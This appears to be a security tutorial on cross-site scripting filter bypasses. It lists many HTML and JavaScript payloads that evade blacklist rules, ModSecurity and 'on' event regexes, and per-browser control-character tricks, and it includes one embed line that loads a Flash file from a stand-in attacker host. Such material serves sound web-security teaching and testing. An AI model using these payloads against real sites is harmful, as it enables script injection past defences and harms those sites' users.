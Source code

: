 Blacklisting Filters is the most filter mechanism being used. These type of filter's common goal is to detect specific patterns to prevent malicious behaviors.
## Bypassing Weak `<script>`  Filters.
The `<script>` tag is the primary method to execute JavaScript.

Some filters do not cover all possible cases, making them weak and prone to bypass techniques. The following is an example of few bypasses for weak `<script>` tag filter rules:

| Bypass Payload                               | Description                                                    |
| -------------------------------------------- | -------------------------------------------------------------- |
| `<ScRiPt>alert(1);</ScRiPt>`                 | Mixed of upper and lower-case characters.                      |
| `<ScRiPt>alert(1);`                          | Mixed of upper and lower-case characters, without closing tag. |
| `<script/random>alert(1);</script>`          | Random string after the tag name.                              |
| `<script`<br>`>alert(1);</script>`           | New line after the tag name.                                   |
| `<scr<script>ipt>alert(1);</scr<script>ipt>` | Nested tags.                                                   |
| `<scr\x00ipt>alert(1);</script>`             | NULL bytes.                                                    |
### ModSecurity Filter Rules
The following is an example of how ModSecurity filters the `<script>` tag:
```txt
SecRule ARGS
"(?i)(<script[^>]*>[\s\S]*?<\/script[^>]*>|<script[^>]
*>[\s\S]*?<\/script[[\s\S]]*[\s\S]|<script[^>]*>[\s\S]
*?<\/script[\s]*[\s]|<script[^>]*>[\s\S]*?<\/script|<s
cript[^>]*>[\s\S]*?)"
...[SNIP]...
```
## JavaScript using HTML Attributes
Alternatively, JavaScript can also be executed through the use of HTML attributes, below are some few examples:
- `<a href="javascript:alert(1)">show</a>`
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`
- `<form action="javascript:alert(1)"><button>send</button></form>`
- `<object data="javascript:alert(1)">`
- `<object data="data:text/html,<script>alert(1)</script>">`
- `<embed code="//hacker.com/xss.swf" allowscriptaccess="always">`
> Note: The `swf` is a defunct Adobe Flash file format. 
## JavaScript using HTML Events
Events are the way that HTML DOM adds interactivity between the website and its visitors.

Almost all event handlers identifier start with `on` and are followed by the name of the event. One of the most used is `onerror`. For example:
```html
<img src=x onerror=alert(1)>
```

Below are some of HTML 4 tag examples:
- `<body onload=alert(1)>`
- `<input type=image src=x:x onerror=alert(1)>`
- `<form oninput=alert(1)><input></form>`
- `<textarea autofocus onfocus=alert(1)>`

While below are some HTML 5 tags examples:
- `<svg onload=alert(1)>`
- `<keygen autofocus onfocus=alert(1)>`
- `<video><source onerror="alert(1)">`
- `<marquee onstart=alert(1)>`
### Filter Rules
The following is a very common regex used to filter all events that start with `on` in order to block this type of payload:
```txt
(on\w+\s*=)
```

However, thanks to a mix of HTML and browser "dynamisms", we can easily bypass this first filter, first example:
- `<svg/onload=alert(1)>`
- `<svg//////onload=alert(1)>`
- `<svg id=x;onload=alert(1)>`

Due to this, the filter has been upgraded to the following, which is more restrictive:
```txt
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

The following are the bypasses for the second filter, as some browsers convert the control character to a space, thus the `\s` regex rule is not enough to cover all possible characters:
- `<svg onload%09=alert(1)>` (Works on all browsers except Safari)
- `<svg %09onload=alert(1)>`
- `<svg onload%09%20%28%2C%3B=alert(1)>`
- `<svg onload%0B=alert(1)>` (works on IE only)

The following is a list of control characters allowed between the event name attribute (e.g `onload`) and the equal sign character, or just before the event name:
- IExplorer = `0x09`,`0x0B`,`0x0C`,`0x20`,`0x3B`
- Chrome = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
- Safari = `0x2C`,`0x3B`
- FireFox = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
- Opera = `0x09`,`0x20`,`0x2C`,`0x3B`
- Android = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
### Fuzz Testing Filter Rules
Gareth Heyes has created two fuzzer tests:
- [Characters allowed after attribute name](http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name)
- [Characters allowed before attribute name](http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name)